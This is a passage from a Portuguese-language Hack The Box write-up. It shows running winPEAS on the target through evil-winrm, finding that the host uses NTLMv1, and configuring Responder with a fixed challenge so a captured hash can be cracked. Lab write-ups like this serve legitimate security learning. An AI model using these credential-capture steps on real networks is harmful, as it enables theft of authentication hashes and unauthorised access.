 Avançando! Com o evil-winrm, basta indicar que queremos usar essa função, passar o programa e o seus argumentos

```bash
# Target Machine
Invoke-Binary /home/javali/CaptureTheFlag/HackTheBox/contents/winPEASx64.exe -h
Invoke-Binary /home/javali/CaptureTheFlag/HackTheBox/contents/winPEASx64.exe log=C:\Users\henry.vinson_adm\Documents\winPEAS.out
download "C:/Users/henry.vinson_adm/Documents/winPEAS.out"

# Kali
cat winPEAS.out
```

![NTLMv1 winPEAS](Assets/HTB-Windows-Insane-APT/NLTMv1.png)

## 3.2. responder

Com a última informação recolhida, a saber, a máquina usa NTLMv1 para se autenticar, podemos tentar recuperar o hash NTLMv1.

O **responder** permite fazer isso facilmente, mas temos de o preparar para que, quando obtivermos o hash, podermos decifrá-lo. O site https://crack.sh/ nos informa que podemos usar o salt 1122334455667788 gratuitamente para decifrar o NTLMv1.

Temos de configurar o nosso responder.py para especificar o nosso salt:

```bash
which responder
locate responder.conf
cat /var/lib/dpkg/info/responder.conffiles
#>  /etc/responder/Responder.conf
sudo nano /etc/responder/Responder.conf
```
